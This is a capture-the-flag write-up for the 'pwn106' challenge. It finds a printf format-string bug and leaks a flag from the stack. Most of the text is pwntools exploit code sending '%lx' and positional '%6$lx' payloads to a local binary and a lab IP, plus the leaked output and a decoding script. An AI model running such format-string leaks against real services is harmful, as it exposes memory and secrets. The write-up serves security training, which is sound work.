 # Challenge Name: pwn106 

**Category:** pwn

# Approach

Let's try run the program

We cannot overflow the program . Let's try give %x as input
we received an address. This is printf vulnerabilies



Looking at the calling convention for 64bit linux

![alt text](image-6.png)

![](image-6-2.png)

We can see that the flag is being in the code. So lets try to reveal the flag by using %lx to search the position of the flag

```
from pwn import *

context.binary = binary = ELF("./pwn106-user-1644300441063.pwn106-user")

p = process()

payload = "%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx"

p.recv()
p.sendline(payload)
print(p.recv())
```
We get the output
```
b'\nThanks 7ffc99b72230.0.0.ff.7fb54cfb4b30.5b585"8587b4d4854.6465725f67616c66.58585d6465746361.7d58.2e786c25286c252e786c25.2e786
```
We can see that the 5b5858587b4d4854.6465725f67616c66.58585d6465746361 is in the position of 6,7 ant 8th. So we change our script 

```
from pwn import *

context.binary = binary = ELF("./pwn106-user-1644300441063.pwn106-user")

p = process()

payload = "%6$lx.%7$lx.%8$lx"

p.recv()
p.sendline(payload)
print(p.recv())
```

```
from pwn import *

context.binary = binary = ELF("./pwn106-user-1644300441063.pwn106-user")

p = remote("10.10.126.95",9006)

payload = "%6$lx.%7$lx.%8$lx"

p.recv()
p.sendline(payload)
print(p.recv())
```

# Last exploit
```
from pwn import *

context.binary = binary = ELF("./pwn106-user-1644300441063.pwn106-user")

p = remote("10.10.126.95",9006)
# p = process()

payload = "%6$lx.%7$lx.%8$lx.%9$lx.%10$lx.%11$lx"

p.recv()
p.recv()
p.sendline(payload)
output = p.recv().strip().split(b" ")[1].split(b".")

flag = ""
for word in output:
	flag += bytes.fromhex(word.decode("utf-8"))[::-1].decode("utf-8")

print(flag)
```

Here we change to payload to take till position 11th since the flag is long